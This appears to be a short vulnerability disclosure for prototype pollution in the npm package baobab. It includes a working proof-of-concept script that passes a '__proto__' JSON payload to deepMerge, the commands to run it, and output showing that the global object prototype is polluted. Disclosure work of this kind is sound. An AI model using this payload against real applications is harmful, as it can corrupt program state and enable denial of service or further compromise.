 # Description

`baobab` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const Baobab = require('baobab');

console.log(`Before: ${{}.polluted}`)
tree = new Baobab()
tree.deepMerge(JSON.parse('{"__proto__": {"polluted": true}}'))
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i baobab # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
